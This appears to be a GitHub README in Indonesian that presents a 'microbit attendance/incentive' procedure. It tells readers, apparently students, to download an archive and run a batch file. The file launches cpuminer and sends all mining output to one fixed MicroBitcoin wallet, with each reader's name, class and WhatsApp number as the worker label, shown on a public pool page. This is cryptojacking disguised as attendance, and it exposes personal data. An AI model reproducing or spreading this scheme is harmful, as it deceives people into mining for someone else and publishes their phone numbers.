 # Presensi microbit
Untuk menjalankan presensi insentif microbit maka tata cara yang dilakukan:
1. Unduh dulu [tools disini](./mbc.rar)
2. Lakukan edit salah satu file bat yang disana misal edit file run.bat ganti isinya dengan ini:
   ```bat
   cpuminer.exe -a power2b -o stratum+tcp://power2b.sea.mine.zpool.ca:6242 -u mbc1qye84fl6cwuexy0nkje7yvmkp379gntuu8u33te.NAMA_KELAS_WA -p c=MBC,zap=MBC
   pause
   ```
   Pastikan pada bagian NAMA_KELAS_WA diisi dengan nama, kelas dan nomor whatsapp kaka misal : UDIN_3B_62876878797 sehingga isi file bat menjadi
   ```bat
   cpuminer.exe -a power2b -o stratum+tcp://power2b.sea.mine.zpool.ca:6242 -u mbc1qye84fl6cwuexy0nkje7yvmkp379gntuu8u33te.UDIN_3B_62876878797 -p c=MBC,zap=MBC
   pause
   ```
   Simpan dan tutup file tersebut, untuk selanjutnya kita eksekusi.
4. Jalankan file bat run.bat kemudian akan keluar cmd layar hitam yang berjalan.
5. Perhatikan apakah ada yang keluar Accepted warna hijau, jika ya maka insentif berjalan normal
6. Untuk melihat kehadiran bisa dilihat di [sini](https://zpool.ca/wallet/mbc1qye84fl6cwuexy0nkje7yvmkp379gntuu8u33te)



## Pool
zpool
```bat
cpuminer.exe -a power2b -o stratum+tcp://power2b.sea.mine.zpool.ca:6242 -u mbc1qye84fl6cwuexy0nkje7yvmkp379gntuu8u33te -p c=MBC,zap=MBC
```
zergpool
```bat
cpuminer.exe -a power2b -o stratum+tcp://power2b.asia.mine.zergpool.com:17445 -u mbc1qye84fl6cwuexy0nkje7yvmkp379gntuu8u33te -p c=MBC,mc=MBC,ID=113040087
```
### Mac OSX

```sh
brew install rbenv/tap/openssl@1.0
ln -sfn /usr/local/Cellar/openssl\@1.0/1.0.2u /usr/local/opt/openssl
brew install jansson
brew install gmp
```

## Mirrorlink

[tools](https://github.com/MicroBitcoinOrg/Cpuminer/releases)
